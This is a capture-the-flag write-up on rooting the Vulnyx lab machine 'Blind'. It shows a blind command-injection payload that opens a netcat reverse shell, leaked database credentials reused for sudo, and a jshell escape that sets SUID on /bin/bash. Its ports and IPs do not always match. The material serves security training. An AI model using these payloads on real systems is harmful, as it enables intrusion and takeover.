

## Machine Information

- **Name:** Blind
- **Platform:** Vulnyx
- **Difficulty:** Easy
- **IP Address:** 10.13.1.221
- **Operating System:** Linux

## Enumeration

### Nmap

```bash
nmap -n -Pn -sS -p- --min-rate 5000 10.13.1.221
```

---

## Shell (microjoan)

### 80/TCP (HTTP)

### Site



In the initial [nmap](https://nmap.org/) scan, the path in the *disallowed* directive is detected by the *NSE script* .

**`http-robots.txt/dnsrecon-gui`**

`| http-robots.txt: 1 disallowed entry 
|_/dnsrecon-gui`

### Site (/dnsrecon-gui)

The website contains DNSrecon-gui , which is simply dnsrecon with a graphical interface implemented in [PHP](https://www.php.net/) .

.png)

### Command Injection

I tried *to inject a command* into the application's *input , without success.*


### Blind Command Injection

Since we are not observing the command output, we cannot rule out *command injection* , as we could be dealing with a blind case.

If I play with the timings using a sleep function , it does seem to be vulnerable.

.png)

### Reverse Shell

Once the *command injection* is confirmed , I attempt to obtain a **reverse shell** .

.png)

I get the **shell** as **a user** **`microjoan`**

Victim:

```bash
8.8.8.8; nc -e /bin/bash 10.13.1.55 1234 
```

Atacker:

```bash
nc -lvnp 443
```

`listening on [any] 443 ...
connect to [192.168.1.5] from (UNKNOWN) [10.13.1.221] 49394
id ; hostname
uid=1000(microjoan) gid=1000(microjoan) groups=1000(microjoan)
blind`

---

## Privilege Escalation

### Enumeration

### Files

I find credentials stored in a variable 

**`/var/www/html/dnsrecon-gui/index.php`**.

`microjoan@blind:/$ grep -iE 'user|pass' /var/www/html/dnsrecon-gui/index.php 
    $db_user = "microjoan";
    $db_pass = "microP@zz";`

### Sudo

Checking privileges using [sudo](https://linux.die.net/man/8/sudo) prompts for a *password*

```bash
sudo -l
# [sudo] password for microjoan:
```

### Credential Reuse

The **user** **`microjoan`** can run the jshell**`root`** binary using sudo

`Matching Defaults entries for microjoan on blind:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User microjoan may run the following commands on blind:
    (root) PASSWD: /usr/bin/jshell`

### Abuse

GTFOBins provides the *shell-escape sequence* [to](https://gtfobins.github.io/) abuse this.

> *Runtime.getRuntime().exec(“/path/to/command”);*
> 

I assign *SUID (4755) permissions* to **`/bin/bash`**and become **user** **`root`** .

```bash
sudo -u root /usr/bin/jshell 
|  Welcome to JShell -- Version 17.0.17
|  For an introduction type: /help intro

jshell> Runtime.getRuntime().exec("chmod 4755 /bin/bash");
$1 ==> Process[pid=872, exitValue="not exited"]

jshell> /exit
|  Goodbye

microjoan@blind:/$ /bin/bash -pi
bash-5.2# id ; hostname
uid=1000(microjoan) gid=1000(microjoan) euid=0(root) groups=1000(microjoan)
blind
```

### Flags

**As a user** , I can now **`root`**read the **flags** **`user.txt`** and**`root.txt`**

```bash
find / -name user.txt -o -name root.txt 2>/dev/null | xargs cat
# 31c*****************************
# ccb*****************************
```

This concludes the solution to the **Blind** machine .

**Happy Hacking!**